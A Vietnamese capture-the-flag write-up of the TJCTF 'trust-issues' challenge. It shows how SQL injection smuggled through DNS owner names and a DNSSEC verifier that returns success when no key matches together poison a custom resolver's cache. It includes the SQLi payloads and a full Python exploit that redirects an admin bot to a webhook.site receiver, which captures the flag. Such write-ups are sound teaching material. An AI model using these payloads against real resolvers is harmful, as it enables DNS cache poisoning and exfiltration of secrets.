

## Đề bài

*trust-issues*

*Description*

*I made my own DNS resolver and I made sure I could trust it as much as my nameserver by using an even bigger elliptic curve*

*The admin bot will visit trust-issues.tjc.tf by querying the DNS resolver (which will be instanced), and the DNS resolver will query the nameserver to find the ip address of the website*

*DNS Resolver Instancer: `https://dnsresolver-<instance>.tjc.tf`*  
*Admin Bot: `https://admin-bot.tjctf.org/trust-issues`*

Mục tiêu là làm admin bot truy cập một host do mình kiểm soát. Admin bot sẽ hỏi resolver instance của mình record:

```text
trust-issues.tjc.tf A
```

Sau đó bot sẽ truy cập:

```text
https://<resolver answer>/?flag=<flag>
```

Vì vậy ta không cần tấn công website cuối trực tiếp. Thứ cần tấn công là custom DNS resolver: làm sao để nó trả về host của mình cho `trust-issues.tjc.tf`, nhưng vẫn vượt qua DNSSEC validation của nó.

## Hướng giải

Nhìn qua thì bài này rất giống một bài crypto thuần. Nameserver ký DNS records bằng DNSSEC algorithm 17, tức ECDSA trên P-521. Description cũng cố tình nhấn mạnh "an even bigger elliptic curve", nên suy nghĩ đầu tiên rất tự nhiên là phá signature scheme.

Trong source nameserver có đoạn ký khá đáng ngờ:

```python
k = secrets.randbits(512)
```

Với P-521, nonce 512-bit nhỏ hơn kích thước curve order. Nếu thu được đủ chữ ký, hướng này có mùi Hidden Number Problem để recover private key ECDSA. Tuy nhiên resolver lại có bug trust-boundary dễ hơn rất nhiều, nên mình không cần recover private key.

Hướng solve mình dùng là kết hợp:

1. SQL injection trong logic insert cache của resolver;
2. cache poisoning bảng `records` cho `trust-issues.tjc.tf.`;
3. bug DNSSEC verifier: nếu không tìm được signing key phù hợp thì skip signature;
4. submit admin thủ công vì trang admin bot có reCAPTCHA.

### Tổng quan kiến trúc

Trong attachment có ba service chính:

```text
admin bot  --->  custom DNS resolver  --->  nameserver
                                      \
                                       \--> public DoH upstream cho domain khác
```

Resolver hoạt động như sau:

- nếu query name là `trust-issues.tjc.tf.` và type là `A`, `AAAA`, `CNAME`, hoặc `DNSKEY`, nó hỏi challenge nameserver;
- nếu là domain khác, nó hỏi public DNS-over-HTTPS upstream;
- nó cache mọi record nhận được vào SQLite;
- trước khi trả record trong cache, nó cố validate RRset bằng DNSSEC.

Resolver chỉ cho user query các type bình thường:

```python
SUPPORTED_TYPES = {
    "A": A,
    "AAAA": AAAA,
    "CNAME": CNAME,
}
```

Nên ta không thể gọi HTTP API để ép resolver cache `DNSKEY` hoặc `DS` tùy ý. Ta cần một primitive khác.

### Bug 1: SQL injection trong cache insertion

Resolver cache record bằng f-string:

```python
cursor.execute(
    f"INSERT INTO records VALUES ('{record['name']}', {record['type']}, "
    f"{record['TTL']}, {expires}, '{record['data']}')"
)
```

Cả `record['name']` và `record['data']` đều đến từ DNS response. Nghĩa là nếu ta làm resolver fetch một DNS answer có owner name chứa SQL syntax, resolver sẽ execute SQL đó.

Câu hỏi tiếp theo là: làm sao để có DNS response public giữ nguyên malicious owner name của mình?

Các wildcard DNS service như `sslip.io` rất phù hợp. Một domain kiểu:

```text
anything.127.0.0.1.sslip.io
```

sẽ resolve về `127.0.0.1`, và answer owner name vẫn giữ nguyên full query name. Vì vậy ta có thể đặt SQL injection payload ở các label phía trước, rồi để resolver cache answer đó.

Resolver có parameter `upstream` do user control, nhưng dùng arbitrary external JSON upstream không ổn định. Cách ổn định hơn là trỏ upstream về Google DoH, với malicious query đã được nhúng sẵn:

```text
https://dns.google/resolve?name=<payload>.127.0.0.1.sslip.io&type=A&do=true
```

Khi resolver append thêm `name=seed...&type=A&do=true`, Google vẫn dùng cặp `name` và `type` đầu tiên. DNS answer trả về sau đó được resolver cache bằng đoạn SQL vulnerable.

### Bug 2: DNSSEC validation vẫn pass nếu không có signing key match

Resolver validate cached RRset theo logic đại khái như sau:

```python
for sig_row in rrsigs:
    rrsig = parse_rrsig(sig_row)
    signing_key = find_signing_key(rrsig, dnskeys)
    if not signing_key:
        continue

    valid = verify_rrset(rrset, rrsig, signing_key["public_key_b64"])
    if not valid:
        return False
return True
```

Đây là bug quan trọng nhất.

Nếu có RRSIG, nhưng không có DNSKEY cached nào match key tag của RRSIG, code chỉ `continue`. Nếu tất cả signature đều bị skip như vậy, function đi tới cuối và `return True`.

Tức là poisoned RRset có thể pass validation nếu:

1. có ít nhất một RRSIG cached cho name/type đó;
2. có ít nhất một DNSKEY cached cho signer;
3. không DNSKEY nào match key tag của RRSIG thật.

Ta không cần forge chữ ký ECDSA P-521. Ta chỉ cần làm resolver dùng fake DNSKEY để nó không tìm được real signing key.

### Bug 3: fake DNSKEY cũng validate pass

Resolver validate DNSKEY bằng DS record. Nhưng nó chỉ loop qua key có KSK flag `257`:

```python
ksks = [r for r in dnskey_records if (r["data"].split()[0] == "257")]

for key_record in ksks:
    for ds in parsed_ds:
        if not verify_ds(key_record["data"], ds):
            raise Exception(...)
return True
```

Nếu ta chỉ cache một fake ZSK có flag `256`, thì `ksks` là list rỗng. Loop không chạy và validation trả `True`.

Ví dụ fake DNSKEY sau là đủ:

```text
256 3 17 AA==
```

Ta cũng cache thêm một dummy DS để `get_cached_records(zone, DS)` không rỗng:

```text
1 17 2 deadbeef
```

DS này không cần hợp lệ, vì không có KSK nào để verify với nó.

### Ghép cache poison

Ta cần insert ba dòng vào bảng `records` của resolver:

```text
trust-issues.tjc.tf.  A       webhook.site/<token>/
trust-issues.tjc.tf.  DNSKEY  256 3 17 AA==
trust-issues.tjc.tf.  DS      1 17 2 deadbeef
```

A record trỏ về Webhook.site receiver của mình. Điểm thú vị là data này không phải IPv4 address. Điều đó vẫn ổn, vì nếu DNSSEC verification bị skip trước khi `verify_rrset()` encode RRset, resolver sẽ trả string này như A record data.

SQLi payload cho fake A record:

```sql
x',1,1,1,'x'),('trust-issues.tjc.tf.',1,300,4102444800,'webhook.site/<token>/')--
```

Với DNSKEY và DS, dấu cách không tiện khi đặt trong DNS label, nên mình dùng SQLite `replace()` để tạo tab tại thời điểm SQL execute:

```sql
x',1,1,1,'x'),('trust-issues.tjc.tf.',48,300,4102444800,replace('256_3_17_AA==','_',x'09'))--
```

```sql
x',1,1,1,'x'),('trust-issues.tjc.tf.',43,300,4102444800,replace('1_17_2_deadbeef','_',x'09'))--
```

Sau khi các row này đã nằm trong cache, ta query:

```text
https://dnsresolver-<instance>.tjc.tf/?name=trust-issues.tjc.tf&type=A
```

Resolver đã có fake A record nên không cần fetch A record lại. Nhưng nó vẫn cần RRSIG cho `trust-issues.tjc.tf. A`, nên nó fetch real RRSIG từ challenge nameserver.

Lúc validate, resolver dùng:

```text
real RRSIG(A) + fake DNSKEY
```

Key tag không match, signature bị skip, và verifier trả `True` sai.

Response cuối cùng của resolver trở thành:

```json
{"data":"webhook.site/<token>/","name":"trust-issues.tjc.tf.","type":1}
```

### Admin bot và reCAPTCHA

Một lỗi dễ gặp là submit admin bot bằng `curl` hoặc `requests`.

Cách đó fail vì admin page có reCAPTCHA:

```text
location: ?url=https%3A%2F%2Fdnsresolver-...tjc.tf%2F&msg=The%20reCAPTCHA%20is%20invalid.
```

Vì vậy script cuối chỉ nên poison resolver và in ra admin URL. Sau đó ta submit resolver URL thủ công trên browser và solve reCAPTCHA.

Khi admin bot nhận submission, nó query poisoned resolver, nhận:

```text
webhook.site/<token>/
```

rồi truy cập:

```text
https://webhook.site/<token>/?flag=tjctf{...}
```

Flag sẽ xuất hiện trong request log của Webhook.site.

## Final Exploit

```python
#!/usr/bin/env python3
import argparse
import random
import time
from urllib.parse import quote

import requests

WEBHOOK = "https://webhook.site"
RECORD_SUFFIXES = [
    "127.0.0.1.sslip.io",
    "1.1.1.1.sslip.io",
    "127.0.0.1.nip.io",
]


def create_webhook_token(s):
    r = s.post(
        f"{WEBHOOK}/token",
        json={
            "default_status": 200,
            "default_content": "ok",
            "default_content_type": "text/plain",
            "timeout": 0,
        },
        timeout=20,
    )
    r.raise_for_status()
    token = r.json()["uuid"]
    print(f"[*] Webhook token: {token}")
    print(f"[*] Receiver: {WEBHOOK}/{token}")
    return token


def google_upstream(qname, qtype="A"):
    return "https://dns.google/resolve?name=%s&type=%s&do=true" % (
        quote(qname, safe=""),
        quote(qtype, safe=""),
    )


def hit_resolver(s, resolver, upstream, label, timeout=35):
    seed = f"seed-{random.randrange(1 << 48):012x}.invalid"
    try:
        r = s.get(
            resolver,
            params={"name": seed, "type": "A", "upstream": upstream},
            timeout=timeout,
        )
        print(f"[*] {label}: HTTP {r.status_code}: {r.text[:220].replace(chr(10), ' ')}")
        return r.status_code
    except Exception as e:
        print(f"[!] {label}: {e}")
        return None


def stage_record_insert(s, resolver, payload_label, suffixes):
    for suffix in suffixes:
        qname = f"{payload_label}.{suffix}"
        max_label = max(map(len, qname.split(".")))
        print(f"[*] stage qname length={len(qname)} maxlabel={max_label} suffix={suffix}")
        if len(qname) > 253 or max_label > 63:
            print("[!] skipped: DNS name too long")
            continue
        status = hit_resolver(s, resolver, google_upstream(qname, "A"), f"seed via {suffix}")
        if status in (404, 500, 502):
            return True
    return False


def build_payloads(token):
    target = f"webhook.site/{token}/"

    a_payload = (
        "x',1,1,1,'x'),"
        f"('trust-issues.tjc.tf.',1,300,4102444800,'{target}')--"
    )
    dnskey_payload = (
        "x',1,1,1,'x'),"
        "('trust-issues.tjc.tf.',48,300,4102444800,replace('256_3_17_AA==','_',x'09'))--"
    )
    ds_payload = (
        "x',1,1,1,'x'),"
        "('trust-issues.tjc.tf.',43,300,4102444800,replace('1_17_2_deadbeef','_',x'09'))--"
    )
    return target, [a_payload, dnskey_payload, ds_payload]


def check_resolver(s, resolver):
    r = s.get(resolver, params={"name": "trust-issues.tjc.tf", "type": "A"}, timeout=25)
    print(f"[*] Resolver check HTTP {r.status_code}: {r.text[:360].replace(chr(10), ' ')}")
    try:
        return r.json().get("data", "")
    except Exception:
        return ""


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("resolver", help="fresh resolver instance, e.g. https://dnsresolver-....tjc.tf/")
    ap.add_argument("--record-suffix", action="append")
    args = ap.parse_args()

    resolver = args.resolver.strip()
    if not resolver.endswith("/"):
        resolver += "/"

    s = requests.Session()
    token = create_webhook_token(s)
    target, payloads = build_payloads(token)
    suffixes = (args.record_suffix or []) + RECORD_SUFFIXES

    print("[*] Seeding fake A + fake DNSKEY + fake DS via add_record SQLi...")
    for i, payload in enumerate(payloads, 1):
        print(f"[*] payload {i}: len={len(payload)} maxlabel={max(map(len, payload.split('.')))}")
        stage_record_insert(s, resolver, payload, suffixes)

    data = check_resolver(s, resolver)
    if data != target:
        print("[!] Resolver did not return our poisoned A record.")
        print(f"    wanted: {target}")
        print(f"    got:    {data!r}")
        print("    Use a fresh resolver instance if an older poison row or the real A record is cached.")
        return

    print(f"[+] Poisoned resolver returns: {target}")
    print("[*] Submit this resolver URL manually in the admin bot and solve reCAPTCHA:")
    print(f"    {resolver}")
    print("[*] Then watch this Webhook.site receiver:")
    print(f"    {WEBHOOK}/{token}")


if __name__ == "__main__":
    main()
```

Chạy với một fresh resolver instance:

```bash
python3 solve.py 'https://dnsresolver-<instance>.tjc.tf/'
```

Output mong muốn:

```text
[*] Webhook token: 851a87d9-2cee-4ff0-aa33-9800c05adcb9
[*] Receiver: https://webhook.site/851a87d9-2cee-4ff0-aa33-9800c05adcb9
[*] Seeding fake A + fake DNSKEY + fake DS via add_record SQLi...
[*] Resolver check HTTP 200: {"data":"webhook.site/851a87d9-2cee-4ff0-aa33-9800c05adcb9/","name":"trust-issues.tjc.tf.","type":1}
[+] Poisoned resolver returns: webhook.site/851a87d9-2cee-4ff0-aa33-9800c05adcb9/
```

Sau đó mở admin bot bằng browser, submit clean resolver URL, solve reCAPTCHA, rồi kiểm tra Webhook.site.

## Vì sao exploit hoạt động?

Resolver đáng lẽ chỉ được trust dữ liệu DNSSEC-signed từ nameserver. Nhưng trust boundary bị vỡ ở hai nơi.

Thứ nhất, DNS response field không đáng tin bị ghi vào SQLite bằng f-string. Điều này cho phép ta seed row cache tùy ý bằng cách bắt resolver query một wildcard DNS name có chứa SQL syntax.

Thứ hai, DNSSEC verifier coi việc "không tìm được signing key phù hợp" là lỗi không nghiêm trọng. Nếu tất cả signature bị skip, validation vẫn trả success.

Flow đầy đủ:

```text
malicious qname dưới sslip.io
        ↓
Google DoH trả A answer và giữ nguyên qname
        ↓
resolver cache answer bằng SQL string interpolation
        ↓
SQLi insert fake A + fake DNSKEY + fake DS cho trust-issues.tjc.tf.
        ↓
resolver fetch real RRSIG(A) từ challenge nameserver
        ↓
fake DNSKEY không match key tag của real RRSIG
        ↓
verifier skip signature và return True
        ↓
admin bot nhận webhook.site/<token>/ như một trusted A record
        ↓
admin truy cập webhook của mình với ?flag=...
```

Phần ECDSA P-521 là một rabbit hole rất hấp dẫn, nhưng exploit thành công không cần phá ECDSA. Vấn đề không nằm ở toán học. Vấn đề là resolver trust cache sai cách và xử lý sai case "không tìm được signing key".

## Lời kết

Bài này rất hay vì title, category và description đều đẩy mình về hướng crypto, nhưng đường exploit lại là một lỗi trust-boundary trong custom resolver.

Các lỗi quan trọng là:

1. SQL string interpolation với dữ liệu DNS response;
2. cache dữ liệu từ arbitrary upstream answers;
3. validate DNSKEY sai khi không có KSK;
4. `return True` khi tất cả RRSIG bị skip vì thiếu signing key.

Khi kết hợp các bug này, ta làm resolver tin một fake A record và đưa admin bot tới webhook của mình.

```text
tjctf{trust_n0_on3_ev3r}
```

"Mit Kanonen auf Spatzen schießen"


